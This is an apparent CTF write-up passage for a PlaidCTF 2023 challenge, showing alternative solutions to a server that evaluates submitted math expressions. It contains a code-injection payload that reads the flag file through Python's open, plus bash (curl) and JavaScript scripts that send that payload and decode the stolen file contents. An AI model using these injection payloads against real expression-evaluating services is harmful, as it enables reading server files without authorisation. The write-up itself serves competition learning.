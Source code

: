- [output](/uploads/plaidctf2023/output)
- [solve.py](/uploads/plaidctf2023/solve.py)

## Alternative solution

After the competition ends, saw that it is possible to leak the flag in one payload in its discord channel:
```
[["num", "('repr(__import__(\\'builtins\\').open(\\'flag\\').read())',)"]]
```
```bash
#!/bin/bash

SERVER=http://127.0.0.1:31337/compute

if [ $# -gt 0 ]; then
    SERVER=$1
fi

TEMPFILE=$(mktemp)

curl \
    --silent \
    --request POST \
    --url "$SERVER" \
    --header 'Content-Type: application/json' \
    --data '[["num","\"'\''0x'\''+open('\''/app/flag'\'').read().encode().hex()\""]]' >"$TEMPFILE"

cut -d '=' -f 2 "$TEMPFILE" | tr -d '\' | python3 -c 'print(hex(int(input()))[2:])' | xxd -r -p

rm -f "$TEMPFILE"
```
This similar to my solution:
```js
let flagBytes = [];

(async () => {
  for (let i = 0; i < 100 && flagBytes[flagBytes.length - 1] != 125; i++) {
    flagBytes.push(
      (await 
        (await fetch("http://ttt.chal.pwni.ng:1337/compute", {
          headers: {
            "Content-Type": "application/json",
          },
          body: JSON.stringify([
            ["num", JSON.stringify(`Integer(open('/app/flag','rb').read()[${i}])`)],
            ["op", "sin"],
          ]),
          method: "POST",
        }))
        .text())
        .split("\\sin{\\left(")[1]
        .split(" ")[0]
    );
  }
  console.log(new TextDecoder().decode(new Uint8Array(flagBytes)));
})();
```
---
# CSS {#css}

